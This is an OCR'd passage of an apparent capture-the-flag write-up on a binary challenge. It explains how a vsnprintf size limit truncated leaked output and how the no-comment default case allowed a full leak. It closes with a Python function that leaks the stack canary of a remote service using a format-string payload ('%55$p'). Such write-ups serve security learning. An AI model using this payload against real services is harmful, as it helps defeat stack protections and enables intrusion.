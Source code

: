 ```
# This is not exactly what I got, but quite similar
bc\x00\x00\x00\x00\x00\x00\x00
```

After some digging, I found that this is because of the `vsnprintf` size limit.

![sizea](./pngs/sizea.png)

The leaked output is in the outbuffer, but the size limit of the out buffer is `strlen(comment) + strlen(template)`. And, since the template already has a `%s`, so the comment is inserted, thus we only get one byte shown.

To cope with this, we found that default case (when no comment is available), the size is more than we need (thanks to @Umut for finding this):

![default](./pngs/default.png)

Now, we get a working leaking! We can now leak canary, yay~

The complete leaking is like:

```python
def leak_canary():
    register()
    register('fuck')
    register('empty')

    number = 0x3000 + 0x30 # v1 <- remote
    payload = 'x' * (number - 0x18) + 'x' * 12 + '%55$p' + 'x' * (10-3) # working! for canary remote

    submit(payload, user='fuck')
    submit('a' * 0x100)
    submit('a' * (0x10), user='fuck')
    view_submit(user='empty')
```
